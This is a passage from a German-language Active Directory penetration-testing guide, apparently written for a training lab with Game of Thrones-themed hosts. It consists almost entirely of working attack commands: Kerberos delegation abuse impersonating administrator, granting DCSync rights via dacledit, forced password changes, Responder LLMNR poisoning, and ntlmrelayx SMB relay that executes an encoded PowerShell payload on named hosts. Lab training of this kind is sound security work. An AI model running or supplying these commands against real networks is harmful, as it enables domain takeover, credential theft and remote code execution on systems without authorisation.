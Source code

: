 #### Windows Exploit Suggester
```bash
# Auf Attacker-Machine
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
cd Windows-Exploit-Suggester

# Systeminfo von Target sammeln
# Via WinRM/RDP: systeminfo > systeminfo.txt

# Analyse ausführen
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --database 2024-01-01-mssb.xls --systeminfo systeminfo.txt
```

### 4.2 Active Directory Privilege Escalation

#### Kerberos Delegation Attacks
```bash
# Unconstrained Delegation finden (via BloodHound oder PowerShell)
# Falls gefunden - S4U2Self/S4U2Proxy Attacks

# Mit Impacket
getST.py -spn cifs/target.domain.local -impersonate administrator domain/delegated_user:password

# Constrained Delegation mit Protocol Transition
getST.py -spn cifs/target.domain.local -impersonate administrator -dc-ip 192.168.20.11 domain/service_user:password
```

#### ACL-basierte Attacks
```bash
# WriteDacl auf User/Group
python3 dacledit.py -action 'write' -rights 'DCSync' -principal 'jon.snow' -target 'north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'administrator':'password'

# GenericAll auf User
python3 changepasswd.py target_user:old_password@192.168.20.11 -newpass 'NewPassword123!'
```

---

## 5. Lateral Movement & Network Pivoting

### 5.1 SMB Relay Attacks

#### Responder + ntlmrelayx Setup
```bash
# Responder für LLMNR/NBT-NS Poisoning
responder -I eth0 -rdwv

# ntlmrelayx für SMB Relay (gegen Hosts ohne SMB-Signierung)
# Targets ohne SMB-Signierung: CASTELBLACK (192.168.20.22), BRAAVOS (192.168.20.23)
echo -e "192.168.20.22\n192.168.20.23" > relay_targets.txt

ntlmrelayx.py -tf relay_targets.txt -smb2support -c "powershell.exe -enc <base64_payload>"
```
